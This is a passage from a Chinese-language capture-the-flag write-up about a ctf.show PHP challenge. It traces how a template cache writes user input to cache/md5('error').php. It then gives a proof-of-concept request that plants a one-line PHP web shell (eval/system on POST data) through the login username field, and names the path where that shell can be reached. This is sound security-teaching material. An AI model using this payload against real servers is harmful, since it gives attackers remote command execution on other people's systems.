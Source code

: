 ```php
	}
}
```

接下来看 `cache_class.php` 也就是危险的终点

```php
<?php
ini_set('display_errors', 'On');

class cache{
	public static function create_cache($template,$content){
		if(file_exists('cache/'.md5($template).'.php')){
			return true;
		}else{
			fileUtil::write('cache/'.md5($template).'.php',$content); //写文件， $template 为楼上的硬编码 error
		}
	}
	public static function get_cache($template){
		return fileUtil::read('cache/'.md5($template).'.php');
	}
	public static function cache_exists($template){
		return file_exists('cache/'.md5($template).'.php');
	}
}
```

我们只需要找哪个页面里面有 {{username}} ，经过测试发现 `/template/error.php`满足，然后 shade() 函数会将 {{username}} 替换成我们登录时时传的用户名。最终将文件写入cache/MD5(error).php

error 的 MD5 为 `cb5e100e5a9a3e7f6d1fd97512215282` ，所以写入的文件名为 `cb5e100e5a9a3e7f6d1fd97512215282.php`

写入的内容则是我们请求时传入的 username 字段的内容 ，这里为一句话 `<?php system($_POST[x]);?>`

最终 poc ：

```http
http://ab726867-f6c1-4c0e-920a-162f17c7943b.challenge.ctf.show//index.php?action=check&username=%3C?php%20eval($_POST[1]);?%3E&password=123
```

访问一句话 `cache/cb5e100e5a9a3e7f6d1fd97512215282.php`
